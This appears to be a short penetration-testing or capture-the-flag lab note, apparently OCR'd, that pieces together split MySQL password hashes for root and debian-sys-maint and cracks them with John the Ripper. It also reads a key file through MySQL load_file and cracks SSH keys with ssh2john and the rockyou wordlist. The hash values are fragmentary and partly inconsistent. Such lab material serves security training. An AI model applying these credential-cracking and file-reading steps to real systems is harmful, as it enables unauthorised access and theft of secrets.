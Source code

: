 
You should get 2 passwords:


debian-sys-maint
root


The root password is likely splitted into two parts:


localhost
root*8246FACFAA5BB9CFDCDEAEDA
6c732c6044b7
root
    127.0.0.1
root
root
    localhost
debian-sys-maint*7B6D59ECDB7B791CF100CA46D0AD911082112351
15DA4067EAA55FBC


The first part is *8246FACFAA5BB9CFDCDEAEDA and the second part is 15DA4067EAA55FBC (the value should be different on the live instance).


Once you put them together, you should get a file containing:


root:*8246FACFAA5BB9CFDCDEAEDA15DA4067EAA55FBC


** crack mysql pass with john
root:*9F5E654FF7681FCF7D63D339846039B6644CBA79




*** read the content of a file using mysql
mysql> select 1,2,load_file("/var/lib/mysql-files/key.txt");
+---+---+-------------------------------------------+
| 1 | 2 | load_file("/var/lib/mysql-files/key.txt") |
+---+---+-------------------------------------------+
| 1 | 2 | 4234db90-01c6-4f10-8c81-8c0017107fc7
     |
+---+---+-------------------------------------------+
1 row in set (0.00 sec)




**** crack ssh keys with john


ssh2john rsakey > rsa2johnfile
#root@kali: john –wordlist=/usr/share/wordlists/rockyou.txt –format=SSH rsa2johnfile




